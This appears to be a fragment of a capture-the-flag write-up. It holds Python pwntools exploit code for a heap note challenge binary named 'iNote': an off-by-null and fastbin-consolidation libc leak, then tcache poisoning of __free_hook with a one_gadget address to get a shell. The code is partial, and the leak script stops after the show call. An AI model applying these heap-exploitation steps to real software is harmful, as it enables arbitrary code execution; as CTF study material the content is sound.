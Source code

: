 ```Python
for i in range(7):
    add(i,0x20)

delete(10)

edit(12,p64(libc_base+libc.sym['__free_hook'])+'\n')

add(14,0x20)

add(15,0x20)

edit(15,p64(libc_base+0x4f432)+'\n')

delete(0)

p.interactive()
```



## EXP

```Python
#encoding:utf-8
from pwn import *
context.log_level='debug'

p = process("./iNote")

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

def add(id,size):
    p.sendlineafter("choice: ",str(1))
    p.sendlineafter("Index: ",str(id))
    p.sendlineafter("Size: ",str(size))
def edit(id,content):
    p.sendlineafter("choice: ",str(2))
    p.sendlineafter("Index: ",str(id))
    p.sendafter("Content: ",content)
def show(id):
    p.sendlineafter("choice: ",str(3))
    p.sendlineafter("Index: ",str(id))
def delete(id):
    p.sendlineafter("choice: ",str(4))
    p.sendlineafter("Index: ",str(id))

#unsortedbin泄露libc地址
for i in range(8):
    add(i,0x78)

add(8,0x58)#后面offbynull构造0x110
add(9,0x20)#后面offbynull构造0x110

for i in list(range(8)):
    delete(i)

p.sendlineafter("choice: ",'1'*0x7000)#fastbin 2 unsortedbin

for i in list(range(7))[::-1]:
    add(i,0x78)

add(7,0x78)
show(7)

```